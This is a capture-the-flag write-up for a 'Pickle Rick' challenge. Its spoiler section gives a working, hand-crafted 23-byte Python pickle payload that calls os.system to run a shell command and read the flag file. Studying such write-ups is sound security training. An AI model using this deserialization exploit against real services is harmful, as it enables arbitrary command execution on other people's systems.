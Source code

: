 # Pickle Rick
**Category:** misc

**Author:** _Rok0'sBasilisk_

## Description
It's Pickle Riiiick! Morty \*burp\* look at me! Not only am I a pickle, I can play golf at the same time!

## Solution
<details>
 <summary>Reveal Spoiler</summary>

The first step is to inspect the code of the challenge using the `!code` command. Through code review it is obvious that this is a pickle deserialization challenge, however there is a single requirement to get a working exploit. The pickled payload must be at maximum 23 bytes.

This is a classic golf challenge with the aim of making the pickled payload as compact as possible. 

It is critical that particiapts craft the pickled object manually rather than relying on the `pickle` library, so that unnecessary bytes are avoided.

Here is a working exploit:
```
import base64

from pickle import PROTO, SHORT_BINUNICODE, GLOBAL, TUPLE1, REDUCE, STOP

golf_payload = \
    PROTO + b"\x04" + \
    GLOBAL + b"os\nsystem\n" + \
    SHORT_BINUNICODE + b"\x05" + b". /f*" + \
    TUPLE1 + \
    REDUCE + \
    STOP

print(base64.b64encode(golf_payload).decode("utf-8"))
```

Note that you need to use `ls` initially, to observe that the flag is in the root dir.
</details>